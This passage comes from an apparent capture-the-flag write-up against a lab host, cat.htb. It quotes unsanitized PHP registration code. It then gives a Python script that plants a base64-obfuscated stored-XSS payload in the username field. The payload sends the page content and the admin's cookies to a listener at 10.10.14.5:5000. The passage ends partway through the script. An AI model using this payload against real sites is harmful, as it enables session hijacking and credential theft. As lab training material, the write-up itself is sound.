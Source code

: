 And username is not getting sanitized. So we put our payload there:

```php
// join.php
$username = $_GET['username'];
$email = $_GET['email'];
$password = md5($_GET['password']);

$stmt_check = $pdo->prepare("SELECT * FROM users WHERE username = :username OR email = :email");
$stmt_check->execute([':username' => $username, ':email' => $email]);
$existing_user = $stmt_check->fetch(PDO::FETCH_ASSOC);
```

We abuse the xss with this script and get the admin cookie:
```python
import requests
import random
import base64
from jsmin import jsmin

url = "http://cat.htb/"

payload = (
    """fetch('"""
    + "/"
    + """').then(e => {
        return e.text();
}).then(data => {
    fetch('http://10.10.14.5:5000/something?' + btoa(data) + '|' + window.location.href + '|' + btoa(document.cookie));
}).error(error => {
    fetch('http://10.10.14.5:5000/error?' + btoa(error.text) + '|' + window.location.href);
})"""
)

js = jsmin(payload)
payload = base64.b64encode(js.encode()).decode()
b = payload

username = f"<img src=x onerror=eval(atob('{b}'))>"
password = "asd"
email = f"asd@{random.choice(range(100000000))}asd.asd"
filename = "a.jpg"

with requests.Session() as ses:
    # register
    ses.get(
        url
        + f"join.php?username={username}&password={password}&email={email}&registerForm=aaaa",
        proxies={"http": "http://0.0.0.0:8081", "https": "https://0.0.0.0:8081"},
    )

    ses.get(
        url
        + f"join.php?loginUsername={username}&loginPassword={password}&loginForm=Login",
        proxies={"http": "http://0.0.0.0:8081", "https": "https://0.0.0.0:8081"},
    )

    url = "http://cat.htb/contest.php"
    data = {
        "cat_name": "asdasd",
        "age": "1",
        "birthdate": "2025-02-27",
        "weight": "0.01",
    }
```